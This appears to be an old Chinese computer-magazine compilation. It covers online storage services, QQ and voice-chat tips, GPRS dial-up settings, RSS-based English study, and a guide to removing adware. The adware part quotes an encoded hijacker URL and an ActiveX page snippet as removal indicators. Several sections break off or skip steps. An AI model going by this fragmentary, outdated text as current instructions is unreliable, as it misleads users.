缺点点拨: 长期存放文件容量仅32MB，接力站空间仅512MB，设置小了点，而享受更多空间的服务需要付费。

本奖项提名名单:
- 3621邮箱: http://www.3621.com，免费邮箱服务，最大空间为3126MB，单个附件最大容量为20MB，支持POP3和SMTP，提供防病毒和反垃圾邮件功能。
- 永硕网络硬盘: http://www.ys168.com，文件上传速度很快，对免费用户空间大小为20MB，单个文件最大为3MB。

3. 最大附件奖: YouSendIt
获奖理由: 该站点(http://www.yousendit.com)提供了最大1GB附件的发送功能，只需填写收件人E-mail地址(Recipient's Email Address)即可。
缺点点拨: 由于该站点是国外站点，文件上传速度稍微有点慢。

本奖项提名名单:
- WebDisk: http://rlcode.com/webdisk/index.html，对免费用户提供100MB存储空间，单个文件上传文件最大50MB，上传速度非常快，永久保存文件，可以随意提取文件。
- ChinaMofile: http://www.chinamofile.com，对免费用户提供单次web上传最大800MB空间，单次E-mail方式上传最大50MB空间，速度非常快，文件保存周期为5天。

4. 最方便使用奖: QQ网络硬盘
获奖理由: QQ人人都有，QQ网络硬盘也是唾手可得，只需要点击“网络硬盘”标签，同意腾讯公司的网络硬盘使用协议即可。
缺点点拨: 对QQ普通用户只提供16MB空间，对Tencent Messenger普通用户提供32MB空间。

5. 最有存储保障奖: IBackup
获奖理由: 该站点(http://ibackup.grids.cn/index.html)提供1GB文件存储空间，对于上传文件，将“打碎”后存放在多个服务器上，具有很强的安全性，不用担心你上传的文件因为服务提供商的问题而丢失。而其提供ibackup软件更是提供了定时备份功能，最大限度地保证了存储的安全性。
缺点点拨: 需要安装站点提供的ibackup软件。

6. 最具亲和力奖: Vdisk
获奖理由: Vdisk的网络硬盘很特别，它不像其他网络硬盘一样是在网页上操作的，而是安装在“我的电脑”下面的，这样我们就可以像是在本地电脑一样操作它了。Vdisk免费提供了100MB大小的空间，在官方网站(http://www.vdisk.cn/sign)注册账号和安装插件(插件下载地址:http://www.vdisk.cn/download/VDISK_Install.exe)、完成后在我的电脑下面就可以看见多出一个名为“VDisk”的硬盘，使用起来和本地硬盘没什么区别，十分方便。
7. 终身成就奖: 网络E盘

获奖理由: 该站点(http://www.myfile.name)结合了大容量邮箱和网络硬盘的优势，能让你将自己的126.com和tom.com邮箱转变为非常容易管理的网络硬盘。文件永久存储，且可以共享给其他网络E盘用户。下载文件需要提供提取码。
缺点点拨: 目前只支持126.com和tom.com邮箱，单个上传文件的大小不得大于30MB。

## **大容量邮箱 = 网络硬盘 —— 邮箱**

### 附表

| 邮箱 | 相关工具 | 下载地址 | 备注 |
| :--- | :--- | :--- | :--- |
| Gmail | Gmail tool | http://www.iseezone.com/blog/up/1114889355.rar | / |
| hotmail | RoamDrive | http://www.roamdrive.com/download.html | 该程序也支持MSN、Gmail邮箱 |
| Yahoo! mail | BQYAHOO | http://blog.csdn.net/wwittelne/ | 该程序已经停止更新 |
| 任意支持POP3的邮箱 | 网络U盘 | http://www2.997.cn/996/kcr-wlub.rar | 如果文件大小超过附件限制，可自动切割 |

(逍遥小小 Jay)

## **微缩版“画中画”桌上就能看！**

当你在QQ中聊天正酣的时候，用IE浏览网页很可能会影响聊天的“效率”，网友很可能因此埋怨你不专心。这时候，你也许希望在桌面开一个小窗，聊天之余看看网页，节约效率也不会挡住聊天窗口，这样两全其美的事情能做到吗？

### 实例: 1 分钟做出内嵌浏览器

我们要做的是制作一个“微缩”的浏览器，把它嵌入桌面，从而实现一举多得的效果。
第一步: 打开浏览器，登录到http://www.bitty.com/editor/。
第二步: 选中第一项“Web Site URL”(网站地址)，然后在下面的“Into this field...”框中输入最常去的网址，比如“http://www.cfan.com.cn”。我们要做的浏览器除了支持一般格式的网页，还支持RSS、Podcast、Flickr等特殊格式的网页形式，你可以根据自己的习惯进行设置和添加(见图)。
第三步: “Title” 框中的内容是内嵌浏览器的标题栏，也就是浏览器窗口左上角位置的提示信息。
第四步: “Width”和“Height”是内嵌浏览器的宽度和高度(单位是像素)，在这里你可以根据自己的需要填写，建议两者都不要超过500，否则整个浏览器就会撑满屏幕，和IE没什么区别了。完成后，按下“Continue...”按钮。
第五步: 现在，你可以预览到浏览器；如果满意，继续按“Continue...”按钮。在下一页中，勾选“I agree to the Terms of the License Agreement” 前面的对话框，再选中“Download html file”，按“Continue...”，就可以将结果保存为HTML文件了。
第六步: 用浏览器打开上面的HTML文件，你可以看到有很多组HTML代码，其中第一组代码就是显示浏览器的代码，我们只要将它复制下来，然后添加到打算用来制作桌面文件的HTML中就可以了。

### 小提示

- 如果你对制作网页还不太熟悉，可以参看本刊2005年第9期《1天！我在网上安个家》一文，学习一下网页制作技术。
- 如果实在懒得学，可以到http://www.newhua.com/cfan/200514/desktop.rar下载制作好的HTML文件，只需稍加修改即可使用。

第七步: 在桌面点右键，选择“属性→桌面→浏览”，然后在“文件类型”中选择“HTML文件”，选中制作好的HTML文件，最后按下“确定”。怎么样，“微缩浏览器”效果如何？

### 小提示

注意: 这个浏览器的使用方法是: 在主界面按下“Open URL”按钮，在“Into this field...”框中输入网址，回车后即可访问了。
(杭州 潘崇金)



### 转网络硬盘工具大汇总

目前市面上有很多工具能够让相关的大容量邮箱变成自己的网络硬盘来使用，这在以往的文章中有不少介绍。由于其使用大都类似，而且比较简单，所以笔者不再赘述，下面将目前主流的多容量邮箱及将其转化为存储空间的工具信息列举在下表中，大家只需按图索骥即可。

### 小提示

让Gmail成为2GB网络硬盘的方法
表中介绍了Gmail tool，利用它可以让我们的Gmail 2GB多的空间变成一个网络硬盘。不过这并非一个工具，而是一些php文件，所以要享受该功能，你需要有能够支持PHP的空间才行。下面笔者简单介绍一下使用方法:
第一步: 下载该压缩包后解压，编辑config.php文件，在“@gmail.com”前填入你的Gmail账号，在下面的“password”后面设置为gmail登录密码。
第二步: 上传解压后的四个PHP文件到你的主页空间。接下来访问www.gmail.com，用自己的Gmail账户登录，在页面的左边点击“标签”创建一个新标签，命名为share。
第三步: 将要分享或者上传的文件以附件的形式保存在邮件中，并将该邮件贴标签为share。完成后我们只需要访问自己上传网页即可，不用输入任何用户名和密码直接通过鼠标右键选择另存为就可以下载文件了。

## **QQ 2005 Beta2 沸腾出炉啦！**

灵通刚刚实现和手机的短信互通不久，QQ2005 Beta2便支持小灵通号码登录了。我们只要在登录窗口中单击“QQ号码”旁边的下拉箭头，从中选择“小灵通号码”即可用小灵通号码来登录QQ了（见图2）！

### 敢为天下先——百变空间

新版QQ推出了全新的Q-Zone，功能更加丰富，除可以让用户打造更加个性化的QQ空间外，还有更多更炫、更精彩的节目在等着我们去发掘！

#### 1. 我的布局我做主

以前，虽然Q-Zone中提供的主页面已经非常漂亮，但用户无法对界面布局进行更改。这就好比在进行房屋装修时，只能贴贴瓷砖、挂挂壁画却不能对自己的房间摆设进行调整一样。不过，现在终于可以和这种遗憾说再见了！全新的Q-Zone支持自定义单元模块和界面布局，只要用鼠标稍加“指点”，就可以将首页上的单元模块任意拖动、重叠、隐藏、变色，或者根据自己的喜好加入自定义单元模块，爱怎么折腾就怎么折腾，还怕设计不出超酷的首页来？！

#### 2. 种花种草寻宝

在全新改版的Q-Zone中，用户可以领养自己喜欢的植物，每个植物都有阳光、雨露、营养、爱心四个指数。其中，阳光与Q-Zone的访问量相关，你的Q-Zone人气越旺，花藤获得的阳光就越多；而雨露与回复帖子的数量相关，营养与装饰程度相关，爱心与发布信息、获得奖励等相关。因此，只有不断耕耘自己的空间，扩大知名度，指数才会越高，花藤的生长也就会越茂盛。当花藤达到一定的级别时，还可以结出各种各样超酷的果实，送给我们神秘的宝藏呢！

#### 3. 和QQ完美结合

还记得MSN Spaces和MSN Messenger之间的“亲密无间”吗？现在，QQ和Q-Zone也已经紧密结合在一起了！我们只要将自己关注的Q-Zone加入关注列表，这样当登录QQ后，就会收到关注列表中更新概况，点击还可以查看详细的信息。
同时，如果你的好友也拥有自己的Q-Zone，那么一旦他的Q-Zone有更新，好友人头像旁边会出现一个更新标志，点击就能看到好友的最新内容了。另外，当自己的Q-Zone中有人回复时，我们可以从QQ上第一时间得到通知，点击即可查看。
另外，我们还可以将自己的相片用精美的镜框和装饰物合成一个效果非凡的大头贴挂在Q-Zone，保准让访问者大呼“酷”！背景音乐、多媒体插件、音乐盒……所有的这些，无一不深深地烙上“个性”的印痕，你还有理由拒绝它吗？

### 养只宠物来呵护

想在QQ中拥有属于自己的宠物吗？想成为宠物家族史上的开始鼻祖吗？现在，只要是QQ2005 Beta2的用户就有机会哦！
登录http://pet.qq.com/egg/egg_index.htm，输入自己的QQ号码和密码，选择金蛋或者银蛋，砸开后如果运气好就可以砸中Q宝贝（见图1）！



此时，只要你重新登录QQ，系统会提示你已经是QQ宠物的用户，下载相应的支持程序后，点击面板下方的Q宠图标即可启动Q宠宝贝，接下来用你的爱心去呵护它吧！

### 小灵通号码轻松登录

QQ的“与时俱进”让我们佩服不已，小灵通刚刚实现和手机的短信互通不久，QQ2005 Beta2便支持小灵通号码登录了。我们只要在登录窗口中单击“QQ号码”旁边的下拉箭头，从中选择“小灵通号码”即可用小灵通号码来登录QQ了（见图2）！



### 魔法表情DIY

记得QQ的魔法表情刚推出来的时候，很多用户都为之疯狂，笔者也因此收到了不少极具“震撼效果”的魔法表情，吓了个够呛。而新版QQ大有将魔法表情进行到底的味道，这次还推出了DIY文字表情的功能。
在QQ聊天窗口中部的工具栏上单击“魔法表情”按钮即可进入到魔法表情页面，其中有一个DIY栏目，进入该栏目中后，我们只要单击要发送的魔法表情，便会在发送表情前弹出一个输入框，在其中输入想要给对方说的话，对方收到后就可在表情中看到你写的文字，是不是超酷？
除了以上的功能外，QQ2005 Beta2还对界面、通讯录、个人资料等都进行了一定的更新，用户使用起来也更加的得心应手。而全新的QQ音乐、USB电话的支持又让用户感受到了潮流时尚。因此，别再犹豫了，赶紧升级你的QQ吧！

## **网络时代 视频通信对比**

### 菜鸟时代的“QQ视频教学”

记不得第一次接触星际（“星际争霸”）是什么时候了，不过在很长一段时间里，我都是人见人欺的菜鸟。那天我在战网上被一个叫“菜10”（估计是蔡依林的粉丝）的人连虐3盘，心里很不爽。他倒好，不停地说“菜鸟，做我徒弟吧，我教你”，我心一横：“师傅，请教教我”。他要我加他QQ，跟我视频——不过他的摄像头只对准屏幕，他要教我如何玩这个游戏。星际功夫没学多少，我却把QQ视频聊天玩得很熟。

#### 1. 拒绝游戏时视频请求的打扰

玩游戏的人可能都有过这样的经历吧：当你正沉醉在紧张的游戏氛围中时，突然窗口被切换了出来——有人给你发送视频聊天请求，而且常有人以此来恶作剧。对付这种情况，一般除了关闭QQ别无他法。不过有一个比较简单的方法来对付这种无赖：
首先选择“QQ菜单→一键切换到TM”打开Tencent Messenger，接下来打开这个人的聊天窗口，选择“设置→阻止该联系人的消息”菜单即可。这样对方发送的信息、发送文件请求、视频音频聊天请求，你都收不到，整个世界清静了。

#### 2. 让视频聊天无声无息

有时我们一边在和别人视频聊天，一边却在听歌或看电影，如何让视频聊天中的声音消失呢？方法很简单：打开“QQ视频调节向导”窗口，在“设备选择”栏中将“录音设备”和“放音设备”设置为“无”即可。

### QQ视频聊天功能的优劣

- 优点：不用安装其他软件。
- 缺点：最新版本QQ视频聊天系统资源占用太大，不支持多人视频，连通率比较低。

### Tom-Skype“拆穿”师傅的“真面目”

师傅虽然一直用QQ教我玩星际，但从来没见过他的庐山真面目。三个月以后，他见我技术没什么长进，终于没了耐心：“我们一边打一边用语音聊天来指导你吧。”当我打开Tom-Skype，从网络的另一头传来的声音让我惊讶极了。原来我的师傅是个嗓音弱弱的女孩子！之后的一段时间里，我还是没有见到师傅的样貌，但我却渐渐发现自己对她产生了依赖，我不知道自己是喜欢上了她，还是她的声音……

### Tom-Skype小档案

- 软件版本：1.3
- 软件大小：7455 KB
- 软件性质：免费软件
- 运行平台：Windows 98/Me/2000/XP
- 下载地址：http://skypetools.tom.com/download/download.php?flag=0&s=tom_dl

QQ的视频聊天画质倒还凑合，不过声音不是很清晰，如果你要进行语音聊天，首选绝对是Skype这款风靡全球的软件，而Tom-Skype则是Skype与Tom.com合作的产品。其安装和使用非常简单，只要会用QQ的人都能很快上手。

#### 1. 别忘了保存联系人

Tom-Skype不会像QQ那样自动将联系人保存到服务器，所有联系人都存储在本地。所以如果你重装系统或在别的电脑上使用Skype，再登录Tom-Skype，看到你的联系人空空如也。你可以选择“工具→将联系人导出到Vcard文件”菜单，将联系人保存为*.VCF格式的文件。以后需要的时候，你只需要选择“工具→从Vcard文件导入联系人”菜单导入即可。
此外，也可以选择“工具→导入联系人”菜单，该向导会自动搜索你的Outlook、Outlook Express、Oprea、MSN Messenger联系人，如果这些联系人同时也是Tom-Skype的用户，再次启动Tom-Skype后，Tom-Skype会自动将他们添加到好友名单中。

#### 2. 快速给好友发送语音聊天请求

由于目前Tom-Skype还不支持好友分组功能，如果好友太多，可能想跟某人音频聊天时难以快速找到他。如何能快速发起语音会话请求呢？
- 如果记得住好友的ID：直接在Tom-Skype主界面的“键入要呼叫人员的Skype用户名”栏中输入好友ID的首字母，Tom-Skype会自动匹配符合相关条件的联系人。
- 为好友设置一个快速拨号：右击某个联系人，选择“分配快速拨号”菜单，在弹出的“设置快速拨号键”窗口中输入一个一位数或两位数字，以后就能直接在“键入要呼叫人员的Skype用户名”栏中输入这个设置的数字来定位联系人了。

#### 3. 在网页和论坛中加入“skype me”功能

如果你有自己的站点，可以在站点中加入“skype me”功能，这有点像“E-mail to me”（发送邮件给我），方法是在网页的HTML代码中插入“<a href=callto://你的Tom-Skype ID>skype me</a>”；在论坛中要使用该功能则插入代码：[url=callto://你的Tom-Skype ID]。

#### 4. 跟传统电话通话

Skype最强大的功能还在于它能够与传统电话通话，不过……## E话通里的当众表白

自从知道师傅是个“女流之辈”，为了争口气，我的星际水平突飞猛进，很快就超过了师傅，她和我很少有赢的机会。我们组建了一个名叫“菜10”的战队，她做队长。不玩星际的时候，战队的人都在E话通里群聊。这天我不知道哪根筋搭错了，居然当着几十号人的面说了句不着边际的话：“队长，我爱你了！”E话通频道里瞬间安静得吓人，然后，我就看到师傅离开了频道，丢下一句话：让我冷静一下……

## E话通小档案

软件版本：v3.80 0318.008 软件大小：8479KB 软件性质：免费软件 运行平台：Windows 98/Me/2000/XP 下载地址：http://ephone.263.net

国内多人视频语音聊天工具不少，比如SaynSay(http://www.saynsay.com)、哈哇ICU(http://icu.hawa.cn/)等，不过经过我的一一试用，发现其中功能和速度最满意的还是E话通(http://ephone.263.net)。E话通的功能十分强大，几乎相当于“QQ + 多人视频聊天”。它提供了一个即时通讯软件，这里提供的功能和QQ的基本聊天功能一样，你可以添加管理好友，也可以和他们进行文字、视频交流。此外，它还提供了人气极旺的多人视频聊天室，你可以在这里天南海北地神侃。

## 1. E话通快速上手

安装E话通后，跟QQ一样，你需要免费申请一个号码，申请后登录就可以使用它了。E话通的主界面跟QQ大同小异，左边提供了4个标签，分别是“好友面板管理”、“i空间大厅”、“聊天大厅”、“网络通讯中心”，切换到不同的标签则提供了不同的功能。右键单击某好友，选择“多人语音视频”菜单，可以和最多4个好友同时视频语音聊天。切换到“我的聊天室”标签，双击“聊天大厅”即可进入E话通的多人视频聊天室。

## 2. 一键进入指定聊天室

如果对某个聊天室比较感兴趣，每次都要打开“聊天大厅”，再去慢慢寻找，实在繁琐。其实可以在该聊天室入口处的“添加到E话通”一栏单击“添加”按钮。这样下次进入时，只需在E话通中切换到“聊天大厅”标签，这里就能看到刚才添加的聊天室了，双击即可进入。

## 3. 语音聊天轻松玩

★语音聊天：默认情况下你说的话别人是听不到的，单击“申请发言”按钮，就获得麦克风了，单击“设置声音”按钮，勾选“麦克风”，聊天室里的其他人就能听到你说的话了。发言完毕单击“放弃发言”即可。

小提示：如果别人在发言或者放歌，你不喜欢听，可以单击“设置声音”按钮，取消勾选“语音接收”，或者直接调节音量滑块。

价格从40元～100元不等。笔者把ES620兼容型红外适配器插入到电脑上，并安装驱动，就可以正常使用了(见图1)。



图1

小提示
现在有的手机支持数据线和蓝牙功能，其安装驱动的方法和红外线的差不多。一般安装随机附送的驱动即可。

## 第四步: 打开手机的红外通讯端口并与适配器对准

设置530手机里的“红外线->数据通讯”，然后把手机的红外端口对准红外线适配器，马上任务栏就会弹出找到“Philips 530”和“附近有另一台计算机”的提示。

小提示
红外线适配器必须和手机的红外端口直线对准，否则电脑将无法找到手机。如果使用蓝牙或数据线连接，将方便许多。

## 第五步: 安装“Standard Modem over IR link”驱动

当红外线与电脑连接时，默认创建一个“Standard Modem over IR link”调制解调器，它是拨号工具。

## 第六步: 在电脑上设置通过CMWAP连接点

点击“开始->设置->控制面板->电话和调制解调器选项”，然后选择“调制解调器”并选择“属性”，再切换到“高级”标签。在“额外的初始化命令”中输入“AT+CGDCONT=1, "IP", "CMWAP"”并单击确定按钮(见图2)。



图2

小提示
要确保额外命令中输入的是“CMWAP”，如果输入的是“CMNET”，那将产生巨额的费用。

## 第七步: 创建一个GPRS连接

点击“开始->设置->控制面板->网络连接”，然后点击“网络任务”中的“创建一个新的连接”。在“新建连接向导”中单击“下一步”，选择“连接到我的工作场所的网络->拨号连接”。在“公司名”中输入“GPRS连接”，“电话号码”中输入“*99#”，最后勾选上“在我的桌面上添加一个到此连接的快捷方式”并单击“完成”按钮。注意：在“电话号码”中如果输入“*99#”不能拨号连接到网络，就可以更改为“*99***1#”或者“*99***2#”试一下。

## 第八步: 建立GPRS连接

双击桌面上刚才创建的“GPRS连接”，然后在“用户名”、“密码”中分别输入“wap”，再勾选上“为下面用户保存用户名和密码”，最后单击“拨号”按钮。如果连接成功的话，在Windows的任务栏里就会有一个连接图标了。

小提示
如果想要查看入网后移动分配给你的IP地址等信息，可以双击任务栏里的连接图标，然后选择“详细信息”即可。

## 第九步: 安装并设置网页浏览器

Opera小档案
软件版本:8.0
软件大小:3726KB
软件性质:共享软件
适用平台:Windows 9x/NT/2000/XP
下载地址:http://nj.onlinedown.net/soft/2702.htm

因为移动公司对浏览器做了限制，所以只有通过使用Opera浏览器才能正常浏览网页。如果想使用IE或其他浏览器，必须修改浏览器的头文件，这样操作比较麻烦，所以建议直接使用Opera浏览器。安装下载的程序，在安装过程中，只需依次点击“下一步”，过程非常简单。安装完成后，双击桌面上的“Opera”浏览器的快捷方式，再单击菜单栏里的“工具->首选项->高级”标签，单击“网络”里的“代理服务器”按钮。

在“代理服务器”对话框中，勾选上“HTTP”协议并填上“10.0.0.172”、端口“80”，再把“为代理启用HTTP 1.1”勾选上并单击“确定”按钮即可。最后别忘了把“浏览器识别”选择为“识别为Opera”。现在单击Opera浏览器中的“新建页面”，然后输入域名地址，看看是不是可以正常浏览网页啦?

小提示
如果要下载文件，一般用浏览器直接下载即可，不过由于移动公司对可下载的文件大小也做了一定的限制，一般下载文件不能大于300KB，这个对于大家来说比较头疼，到现在也没什办法可以突破这一限制。

## 第十步: 通过代理使用QQ

运行QQ程序，然后在“QQ用户登录”界面中先填入“QQ号码”和“QQ密码”。再点击“网络设置”按钮，在类型中选择“HTTP代理”，地址中填入“10.0.0.172”，端口中填入“80”。“用户”、“密码”、“域”都可不填。最后单击“登录”按钮，QQ号就能正常登上去了!

小提示
★其他聊天工具都可以通过设置“HTTP代理”，并且键入代理服务器地址、端口“10.0.0.172:80”登录。但笔者发现MSN却无法登录到服务器上，可能是协议间的问题吧。
★通过聊天工具，可以正常互传文件，而且传送的文件大小没有限制，这点正好可以弥补无法下载大文件的限制。

通过上面的实例，大家可以看到，每次都要设置“10.0.0.172:80”这个HTTP代理服务器才能让应用软件连入Internet。大家可以依此类推，一般只要支持HTTP代理的软件，都应该可以按照这种设置通过代理上网。另外，有些手机也能通过安装驱动光盘里自带的拨号软件拨号上网。不过还得把接入点修改为CMWAP。因为每个手机设置不太一样，具体操作步骤请按照手机厂商提供的操作说明书即可。

你知道吗?
中国移动为了区别CMWAP和CMNET的定位，对CMWAP作了很多限制。主要表现在CMWAP接入时，只能访问GPRS网络的内部IP(10.X.X.X)，而无法通过路由访问Internet(少数地区的移动网络可能不存在这一限制)。我们用CMWAP浏览Internet上的网页就是通过WAP网关协议或它提供的HTTP代理服务(例10.0.0.172:80)实现的。

(武汉 李磊)

## 死记硬背不行的 我用Blog学英语!

你通过什么样的途径学习英文?是抱着英汉词典日以继夜狂啃?还是每天看CCTV-9英文电视节目?作为一个下了班就趴在网上网的懒虫，这些传统的方法不太适合我。经过一段时间实践和总结，笔者发现了一种通过Blog和RSS订阅软件相结合来学习英文的妙招。

## 网络——最纯正的外语环境

用一般方法学习英文比较被动。比如，有一个新兴的英文单词叫“lol”(laugh of loud，大笑)，只在最新的翻译软件中能查到它大概是类似于中文的“哈哈哈”这个象声词，但究竟这个单词是如何被老外使用的，就不得而知了。

笔者推荐的“Blog + RSS学习法”的大概原理是:通过Blog搜索网站以某个英文单词为关键字进行搜索，再将该搜索结果输出为一个RSS，最后通过RSS阅读软件订阅该RSS，这样就可以随时跟踪与该英文单词有关的所有Blog文章，真正从应用角度学习该英文单词的用法(见图1)。



比如对于“lol”这个单词，如果通过笔者的方法来学习，可以了解到别人如何在文章中使用，这样借鉴别人用法的学习效果，比起一遍遍死记硬背好得多。想想看，如果生硬记忆“lol, laugh of loud的缩写，类似于中文的‘哈哈’、‘笑死我了’”这样显然不会掌握最地道的用法。另外，在学习过程中，笔者还发现了另外的一些用法，比如“rofl”(Rolling On the Floor Laughing 滚在地板上大笑)，这是通过一般方法无法学到的。

## 送你每小时200元的英文外教

英文外教教学效果确实很好，笔者为了学外语，也咨询过相关价格。当我听说一对一的外教收费是200元/课时(有的更高达350/课时)，使我坚定了自学的勇气(其实是因为没有“出血”的勇气)。

在前面，我们了解了Blog + RSS学习英文的大致思路，接下来以前两天看到一个英语用法“Holy cow!”为例介绍如何具体操作。需要提醒大家的是，由于Blog里包括的是全世界网民及时更新的文章，所以该方法比较适合用来学习英语词汇(尤其是一些不常用或者新出现的词汇)以及英语口语、俚语(比如美国人习惯的表达方式)。

## 实例1: 你知道“Holy cow!”是什么意思吗?

第一步:首先要选择一个Blog搜索站点，要求是该搜索站点支持将搜索结果以RSS方式输出。这些Blog搜索站点都是通过自己的搜索机器人，不断监视已经被自己收录的Blog站点的更新，为大家提供内容检索服务。笔者建议大家根据自己的实际情况来选择不同的站点:

+   ★如果对自己的英文水平不够自信，可以采用国内的相关站点，如FeedSS(http://www.feedss.com/)、8方搜索(http://www.8fang.net/)、Donews(http://search.donews.com/)、FeedSearch(http://www.feedsearch.net/)，在这些站点搜索到的结果多是中国人对该单词的使用。
★如果英文水平不错，可以考虑: icerocket(http://www.icerocket.com/?tab=blog)、bloglines(http://www.bloglines.com/search)、feedster(http://www.feedster.com/)。

通过上述搜索引擎中搜索并获取搜索结果的RSS地址即可。以feedster为例，打开其搜索页面，输入关键字后单击‘Search’按钮，在结果页面的右上角可以看到一个‘XML’按钮。右击它，选择‘复制快捷方式’即可将RSS地址复制到剪贴板。

第三步：将该RSS地址添加到所使用的RSS阅读软件（比如FeedDemon客户端、Bloglines在线阅读等）中。这样就可以随时了解包含该单词最新用法的文章了，等大家完全灵活掌握该单词用法后，就可以将该RSS链接踢出RSS阅读软件。以FeedDemon为例，选择‘档案→新增→新增频道’并按照提示即可添加成功。

通过该方法，可以知道‘Holy cow!’这个词是美国人的一种俚语，用来表示自己的惊讶，大概就相当于常说的‘哇噻！’，跟它同样意思的还有‘Holy mackerel!’等。

小提示
妙用RSS阅读软件自带的‘英文学习法’
通过Blog搜索站点获得信息量毕竟比较庞大，可能这也加大了筛选难度，其实很多RSS阅读软件也带有类似跟踪功能，我们也可以用该功能来学习英文。以FeedDemon为例（下载地址：http://nj.onlinedown.net/soft/18323.htm），选择‘档案→新增→新增监视’菜单，在打开的窗口中的‘监视带有下列关键词的新闻项目’栏中输入‘Holy cow’，在‘标题’栏中输入‘单词学习’，确认后在主界面中展开‘监视’栏就可以看到所有FeedDemon订阅的Blog站点中包含‘Holy cow’这个词的内容，并且一旦有Blog新的文章中出现‘Holy cow’，‘监视’栏会同步更新。

## 岂止可以学习英文！

能学英语，还能做其他的吗？大家可以将该英文学习方法推广——用它来关注重大新闻事件的最新进展或感兴趣的话题，其使用方法和前文所叙完全一样，笔者不再赘述。值得一提的是，Blog毕竟目前还不能算是专业媒体，可能在新闻的及时性和准确性上尚不及专门的新闻站点（如国内的百度新闻、国外的雅虎新闻）。下面笔者介绍一下如何利用它们来跟踪新闻。

实例2：关注发生在印度洋的海啸的最新进展
1. 用百度新闻搜索
百度新闻(http://news.baidu.com)已经为自己的搜索功能提供了RSS输出功能，它的使用方法就和前面介绍的方法一样了：首先进入http://news.baidu.com/rss/，输入关键字‘印度洋 海啸’后单击‘百度新闻’按钮，在结果页面的左上角可以看到订阅该搜索结果的‘XML’按钮，将其地址添加到RSS阅读软件中即可。
2. 用雅虎新闻站
跟多数新闻站点一样，雅虎新闻站(http://news.yahoo.com)实际上是没有提供搜索结果的RSS输出功能，但有高手已经解决了这个烦恼：首先打开http://jeremy.zawodny.com/blog/archives/001001.html网页，在‘Enter search term(s) and hit Enter’栏中输入关键字，单击‘go’按钮，在打开的页面中我们可以看到该搜索结果的RSS地址，同样将其添加到RSS阅读软件即可。不过这里最好使用英文关键字，如‘Tsunami’(海啸)。

小提示
对于其他新闻站点，如新浪等，获得其新闻搜索结果的RSS地址就没办法了，只能寄希望于这些站点推出相关功能，相信不久这一功能将大行其道。

（刘博）

## 小心呀！‘流氓’进村了——广告软件的六大潜入方式

在前两年，大家上网冲浪时谈得比较多的问题，是‘主页被篡改’、‘疯狂弹出广告窗口’、‘关不掉的全屏窗口’等，现在他们已经变成‘小儿科’。在利益驱动下，另一种恼人的‘垃圾’开始繁衍起来，这就是广告软件。广告软件开始寻求一些新型的植入系统的方法，比如强行捆绑安装、秘密运行、多个插件联手、与资源管理器紧密集成为……为了对付这样的‘新生代流氓’，笔者决定‘打入敌人内部’，为大家带来第一手资料……

## 莫名其妙的‘about:blank’搜索页面

嵌入方式：向系统文件夹写入DLL文件 危害程度：★★ 内存占用：约20MB(单页面) 症状描述：打开IE浏览器，发现页面链接到一个叫‘Search for…’的国外站点，可地址栏里却没有任何网址，而是显示‘about:blank’ 危害描述：无法设置主页、浏览器被劫持、系统运行速度变慢。

解决尝试：习惯性地在‘Internet 选项’中打开IE主页设置窗口，发现‘主页’一栏的按钮并没有变成灰色不可设置，于是填入一个新的主页地址，确认后却发现故障依旧；运行‘msconfig’命令，在‘启动’中没有发现任何可疑程序被加载；在注册表中搜索‘search for’、‘searchx’等关键字，没有结果；使用多种IE修复工具无效。

解决之道：
第一步：查看该网页源代码，发现其中一句非常可疑‘a c t i o n = 6 8 % 7 4 % 7 4 % 7 0 % 3 A % 2 F % 2 F % 7 3 % 6 5 % 6 1 % 7 2 % 6 3 % 6 8 % 6 5 % 6 E % 7 2 % 6 3 % 6 8 % 6 5 % 7 2 % 7 0 % 6 8 % 7 0’，显然这段代码是经过加密处理的。
第二步：运行16进制文本编辑软件UltraEdit(UltraEdit V11.10a+3 汉化版下载地址：http://www1.skycn.com/soft/2249.html)，选择‘搜索→在文件中查找’，在‘查找’栏中输入‘%68%74%74%70%3A%2F%2F%73%65%61%72%63%68%65%6E%62%65%72%63%68%65%72%70%68%70’，‘文件类型’栏输入‘*.*’，‘目录’栏设置为‘C:\Windows’，勾选‘搜索子目录’一项，单击‘查找’按钮（见图1）。
第三步：搜索完成后，发现C:\Windows \system32\ndhb.dll文件中正好包含要查找的字符。这下好解决了，删掉该文件即可（直接删除会提示文件正在使用，可以重新启动计算机按F8选择进入安全模式进行删除操作）。
第四步：运行‘Regedit’命令打开注册表编辑器，搜索‘hdhb.dll’，删除所有搜索结果。

经验之谈：这类流氓广告已经不仅仅是修改注册表、加入启动项、修改系统hosts文件那么简单了，它是直接往系统中写入了用于捆绑到浏览器的dll文件，所以笔者将其归类到‘恶意广告程序’而非普通的‘浏览器劫持’。

对于这样的情况，可以按照上面的解决思路着手，对于查找到的恶意文件遇到无法删除的情况，可以首先尝试到安全模式删除，如果还不行，请尝试用Copylock(Copylock V1.09 Build 47.1 汉化版下载地址：http://www1.skycn.com/soft/8642.html)来删除，该软件可以删除正在被调用的文件。对于网页源代码中出现加密路径的情况，可以尝试用一款名为‘URL编码转换工具’(下载地址：http://www.newhua.com/cfan200515/code.rar)的软件进行解密，这样可以直接看到其真实面目。

Copylock和URL编码转换工具的使用方法都非常简单，大家一看便知，笔者不再赘述。

同类黑名单：太多了，而且层出不穷，建议大家少访问不明网站。



## 谁动了我的QQ面板

嵌入方式：将广告集成到QQ面板 危害程度：★★ 内存占用：18MB(切换到该面板瞬间值) 症状描述：访问某些站点（如http://www.222922.com/cn/），在一阵浏览器假死之后，出现一个‘添加迷你门户’的窗口，如果不点‘确定’，每次刷新网页都要求进行添加。可一旦点击‘确定’，QQ面板中将加入一个新的名为‘席娟中文网’的标签。 危害描述：访问页面时浏览器假死，确认后QQ/TM启动速度变慢，如果网页中有脚本错误，每次切换QQ标签都会出现错误提示。

解决尝试：刚开始还以为与浏览器劫持有 关，于是采用HijackThis进行扫描，从对结果的分析来看，并无可疑之处；查看QQ安装目录下的文件，由于可执行文件和dll文件过多，排查无果。

解决之道：
第一步：首先查看该页面的源代码，发现其中一句‘var xmlhttp=new ActiveXObject’‘TimwpDll.TimwpCheck’；可疑，其中‘TimwpDll’有些似曾相识。于是赶紧打开QQ安装目录，果然找到了两个分别名为‘Timwp.dll’、‘Timwp.exe’的文件。
第二步：在其他目录新安装一个QQ号码，发现该目录中没有出现Timwp.exe文件，从而判断Timwp.exe并非运行QQ必须的文件，于是大胆删除它。接下来在注册表中查找‘Timwp.exe’文件，将所有搜索结果全部删除。
